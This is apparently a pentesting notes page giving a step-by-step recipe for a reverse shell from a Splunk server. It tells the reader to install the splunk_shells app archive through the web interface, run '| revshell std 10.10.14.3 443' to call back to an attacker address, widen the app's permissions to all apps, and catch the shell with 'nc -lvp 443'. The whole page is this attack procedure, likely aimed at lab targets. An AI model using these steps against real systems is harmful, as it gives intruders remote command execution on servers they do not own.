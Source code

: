 # (8000) Splunk

<details>

<summary>Reverse Shell from Splunk</summary>

Download  [https://github.com/TBGSecurity/splunk\_shells/archive/1.2.tar.gz](https://github.com/TBGSecurity/splunk_shells/archive/1.2.tar.gz)

Click on "Search & Reporting"

<figure><img src="../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

"App: Search & Reporting" --> Manage Apps

<figure><img src="../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

"Install app from file"

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Upload "splunk\_shells-1.2.tar.gz"

<figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

"Restart Now"

<figure><img src="../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

Go to "App: Search & Reporting" and use the command: `| revshell std 10.10.14.3 443`

<figure><img src="../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

Click on "Permissions"

<figure><img src="../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

Select "All apps" --> "Save"

<figure><img src="../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

nc -lvp 443

<figure><img src="../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

</details>
